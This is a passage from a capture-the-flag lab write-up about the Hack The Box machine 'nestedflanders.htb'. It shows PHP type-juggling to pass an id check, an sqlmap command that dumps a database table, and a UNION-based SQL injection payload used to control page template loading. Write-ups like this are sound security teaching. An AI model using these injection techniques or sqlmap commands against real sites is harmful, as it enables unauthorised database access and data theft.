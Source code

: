    ```

   php > if (25 == "25 0xdf this is a test") { echo "true"; } else { echo "false";} ;
   true
   php > if (25 === "25 0xdf this is a test") { echo "true"; } else { echo "false";} ;
   false

   ```

   All of this is to say that as long as my input starts with a number followed by a space, I can pass this check.
3. `in_array(intval($_GET['id']),$valid_ids)` - Given what I showed in 2., this isn’t really a challenge. I just need to make sure my input starts with one of the three numbers in `$valid_id`.

#### Controlling id –> tpl

I’ll look at the first sql query:

```

SELECT name FROM idname where id = $_GET['id']

```

I can use my SQLI to see what that table looks look:

```

root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy -T idname --dump
...[snip]...
+-----+-------------+----------+
| id  | name        | disabled |
+-----+-------------+----------+
| 1   | main.php    | 1        |
| 2   | about.php   | 1        |
| 3   | contact.php | 1        |
| 25  | main        | 0        |
| 465 | about       | 0        |
| 587 | contact     | 0        |
+-----+-------------+----------+

```

So it’s going to return a string, and the expected three values are `main`, `about`, and `contact`. To see if I can control the output of this function, I’ll start with id 587, and see if I can get it to load the about page (id 465). I’ll want a query that looks like:

```

SELECT name FROM idname where id = 587 and 1=2 UNION select "about"

```

So I’ll submit:

```

587' and 1=2 UNION select 'about'-- -

```

